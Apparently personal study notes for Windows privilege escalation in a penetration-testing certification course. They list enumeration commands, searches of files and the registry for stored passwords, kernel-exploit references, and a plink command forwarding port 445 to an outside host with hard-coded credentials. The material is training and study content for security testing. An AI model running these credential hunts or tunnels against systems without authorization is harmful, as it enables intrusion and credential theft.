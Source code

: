 Initial un-managed WPE Checklist: [[Old WPE Checklist|Old WPE Checklist]]
[[PNPT/WPE/Resources]]
# Basic Enumeration
---
- **==Look at History==**
- [[PNPT/WPE/Enumeration/System Enumeration|System Enumeration]]: **Good for Kernel Exploitation**
	- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`
	- `hostname`
	- `wmic qfe Caption,Description,HotFixID,InstalledOn`
	- `wmic logicaldisk get caption,description,providername` => **==Good One==**
- [[PNPT/WPE/Enumeration/User Enumeration|User Enumeration]]
	- **==`whoami /all`, `whoami /priv, `whoami /groups` `==**
	- `net user`, `net user some_user`
	- **==`net localgroup administrators`, `net localgroup`==**
- [[PNPT/WPE/Enumeration/Network Enumeration|Network Enumeration]] : ==**maybe no need to escalate, just Pivot**==
	- ==**`ipconfig /all`**==
	- ==**`arp -a`**==
	- ==**`route print`**==
	- ==**`netstat -ano`==**
- [[Password Enumeration]]
	- `findstr /si password *.txt *.ini *.config`
	- `unattend.xml`
	- **==`wifi passwords`==**
	- **==Personal powershell script==**
- [[AV and FW Enumeration]]
	- `sc query windefend`**Windows Defender Status**
	- `sc queryex type= service` -> **==All the services==**
	- `netsh firewall show state`, `netsh advfirewall firewall dump`
	- `netsh firewall show config`-> **Open Ports**

# Automated Tools
---
- [[Automation Tools]]
  
# ==Kernel Exploits==
---
https://github.com/SecWiki/windows-kernel-exploits
[[Kernel Exploitation Using Metasploit]]
[[Kernal Exploitation Manually]]
- Might have to run these **multiple times to work** (maybe use different payloads / architecture)
- Good on **==Older versions of windows (7, 8, XP, Servers)==**
- **Chimichurry, Reflection, ms15_051_client_copy_image, Potatos, etc are good ones**

# Passwords Escalation and Port Forward
----
[[PNPT/WPE/Escalation via Stored Passwords/Privilege Escalation|Privilege Escalation]]
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
- When **==credentials are found for a user (maybe of ssh?), we can use plink or winEXE or portfwd using meterpreter==** - [[PNPT/WPE/Escalation via Stored Passwords/Privilege Escalation|Privilege Escalation]]
	- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5`
